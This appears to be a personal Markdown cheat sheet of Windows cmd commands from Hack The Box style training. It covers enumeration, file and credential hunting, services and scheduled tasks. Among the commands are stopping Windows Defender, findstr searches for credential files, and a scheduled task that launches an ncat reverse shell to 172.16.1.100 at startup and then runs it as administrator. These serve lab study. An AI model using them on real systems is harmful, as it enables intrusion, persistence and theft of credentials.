 ```yaml
---
edit: Need to update and edit
---
```


# Windows cmd commands

## File commands CMD

```cmd
# Show history selection
F7

# like less can be piped
more 

# Find not case sensitive
find /i

# List hidden
dir /A:H
tree /F

# Copy
robocopy /E /MIR /A-:SH
xcopy /E

# files/folder creation
fsutil file createNew
```

## Enumeration

```cmd
# System Information
whoami
whoami /priv
whoami /groups
systemifo
hostname
ver

ipconfig /all
arp /a - arp cache

net localgroup - show local groups
net share
net view - list servers connected
```

## Finding files

[findstr](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/findstr) - cheatsheet

```cmd
# Locate files
where /R
where /R C:\Users\student\ *.csv

find "password" "C:\Users\student\not-passwords.txt" 

# General find files
dir n:\*cred* /s /b
n:\Contracts\private\credentials.txt

# Grep like
findstr /s /i cred n:\*.*
n:\Contracts\private\secret.txt:file with all credentials
n:\Contracts\private\credentials.txt:admin:SecureCredentials!

# find compare
fc passwords.txt modded.txt /N
comp .\file-1.md .\file-2.md
```

## Env Variable

```cmd
echo %WINDIR%
set SECRET=HTB{5UP3r_53Cr37_V4r14813}
echo %SECRET%

# Admin
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment
# user
HKEY_CURRENT_USER\Environment
```

## Services handling

```cmd
# Query
sc query type= service
sc query windefend
sc stop windefend

tasklist /svc
net start
wmic service list brief

# Disable
sc config bits start= disabled
```

## Scheduled tasks

#### Query Syntax

```cmd
# View running
SCHTASKS /Query /V /FO list

# Create reverse shell
/create : to tell it what we are doing
/sc : we must set a schedule
/tn : we must set the name
/tr : we must give it an action to take

schtasks /create /sc ONSTART /tn "My Secret Task" /tr "C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100"

# Modify
/tn 	Designates the task to change
/tr 	Modifies the program or action that the task runs.
/ENABLE 	Change the state of the task to Enabled.
/DISABLE 	Change the state of the task to Disabled.

schtasks /change /tn "My Secret Task" /ru administrator /rp "P@ssw0rd"

# query the made task
schtasks /query /tn "My Secret Task" /V /fo list 

# Delete
schtasks /delete  /tn "My Secret Task"
```



